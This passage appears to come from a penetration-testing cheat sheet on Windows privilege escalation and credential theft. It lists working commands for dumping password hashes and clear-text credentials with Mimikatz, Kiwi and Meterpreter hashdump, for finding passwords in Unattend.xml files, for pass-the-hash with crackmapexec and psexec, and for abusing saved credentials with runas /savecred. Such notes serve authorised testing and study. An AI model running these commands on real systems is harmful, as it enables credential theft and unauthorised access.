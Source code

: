     * Ex. `getpid`: 2628, `ps:`
      * PID: 2948 | PPID: 2036 NAME: explorer.exe | ARCH: X64 | SESSION:1 | USER: ANTHING\Administrator | PATH: C:\Windows\explorer.exe


* `getpid` : 2948
* Of course you can repeat the process to become NT AUTHORITY\SYSTEM

### Password in configuration file (Unattend.xml)

* An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
* ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
* Extract password and decode it (from base64)

### Credential Dumping (Mimikatz - Kiwi - Hashdump)

* Prerequisites: User must be a member a local Administrators.

1. hashdump (Metasploit - Meterpreter)
   * You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   * `hashdump`
2. Kiwi (Metasploit - Meterpreter)
   * You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   * `load kiwi`
   * `creds_all` Retrieve all credentials (parsed)
   * `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   * To find the clear text passwords : `lsa_dump_secrets`
     * However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3. Mimikatz
   * upload mimikatz.exe
   * `\mimkatz.exe`
   * `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   * `lsadump::sam` : NTLM hashes for all of the user accounts on the system
   * `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

### Pass the Hash

1. `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2. Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   * empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     * `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   * With `hashdump` you have the right format

### Other

* Powershell History
* Saved Windows Credentials
  * cmdkey /list
  * runas /savecred /user:admin cmd.exe
* Scheduled Tasks
* Insecure Permissions on Service Executable
* Unquoted Service Paths
* Insecure Service Permissions
  ```